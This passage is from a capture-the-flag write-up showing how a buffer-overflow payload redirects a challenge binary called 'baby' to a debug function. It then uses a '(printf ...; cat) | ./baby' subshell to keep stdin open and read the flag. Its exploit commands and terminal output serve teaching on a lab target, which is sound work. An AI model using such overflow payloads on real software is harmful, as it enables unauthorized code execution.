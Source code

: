 `printf()` printed me something from `debug()` so i chose to stick to it  

```bash
0773290cf797:~$ printf 'AAAAAAAAAAAAAAAAAAAAAA\x05\x92\x04\x08\n' | ./baby
Fill this : New is not always ...?
...

AAAAAAAAAAAAAAAAAAAAAA ? The good one is the following one :
New is not always better ! But sometimes, it is ;)
Debug mode enabled
... segfault blablabla
```
*the program was crashing, but at least i got something more!*  

Now the idea is that the `stdin` (standard input) remains **open** so we can throw in a `cat flag.txt` and read the flag.
In Unix-like systems, `stdin` is the input **stream** that a process reads from. So as long as our `baby` binary reads this 'stream', anything that goes in it (like `cat flag.txt`) will be read by `baby` and displayed in our terminal.  
We do this by **enclosing** the payload with a `cat` command and pipe this into the binary. 
TL;DR: the program will be blocked from terminating before we can even throw in some commands.

## How does this works ?  
Using `()` with commands inside will create a subshell in which those commands will be executed, let's try it:  

```bash
0773290cf797:~$ (printf 'AAAAAAAAAAAAAAAAAAAAAA\x05\x92\x04\x08'; cat)

AAAAAAAAAAAAAAAAAAAAAA�

^C
0773290cf797:~$
```  

As you can see, i had to manually cut the execution using CTRL+C otherwise the content is just being `cat`ted (not an official term, please don't kill me...) indefinitely ...
So it's kinda like a tunnel is being created, and one way to exit it is by using CTRL+C.  

Good so now we have this tunnel, lets pipe it into the binary. This will allow us to be able to `cat` indefinitely, thats useless here but at least long enough to cat our `flag.txt` and get our flag. 


```bash
0773290cf797:~$ (printf 'AAAAAAAAAAAAAAAAAAAAAA\x05\x92\x04\x08\n'; cat) | ./baby
                                                                          .=****-
                                                                      -**=====% 
                                                                   -+*+=====+%: 
                                                              .-+**+======*%%=. 
                                                         :=++**+=====+**#*+===+*+ 
                                                  .:-+#%@#***************+***+==#- 
                                           .:=++#@%#*+++++++++++*##@*-.     .-==: 
                          :.        .:=++**++*##*++++++++++++++++++++**=. 
                    .==#=**-*--==++*++==+**##+++++++++++++++++++++++++++**: 
                  -#=#.:# ++#*+=+*****###%*++++++++####*++++++++++++++++++**. 
        ..:-==+++*****#*#%@*#**#****+==%#++++++++++++++#*+++++++++****++++++#= 
   -+****++====++*********+*%=+=:.    **++++++++++++++++++++++++##*++*%++++++#* 
   =++********++++****%#:-===#       +*+++++++++**#*++++++++++++++++++%+++++++#- 
   -+++++***+++=-:    -+=%:.#.       %++++++++*#-.:%@++++++++++++++++++++++++++% 
   :=--:.                 *-.*=     -#+++++++**  :@@@+++++++++#+=+@@#++++++++++%. 
                           ++..=+==:+*++++++*#  *#@@*+++++++#+  +@@@@++++++++++%: 
                             -++-:.:#*++++++%: =@@@%+++++++%:  :@@@@%++++++++++%. 
                                 :-=#*++++++@  +@@@*++++++%:  +#@@@#+++++**++++% 
                                    -#++++++*+:=@@#++++++*+   @@@@%+++++#+-#++*+ 
                                     %++++++++**+++++++++#=  .@@@@#++++++*#:+#%. 
                                     +*++++*%**+++*#*+++++%-  #@@@*++++++++#=:% 
                                   :*#+++++%+++++*%*##+++*+*#*###+++++++++++#*.#. 
```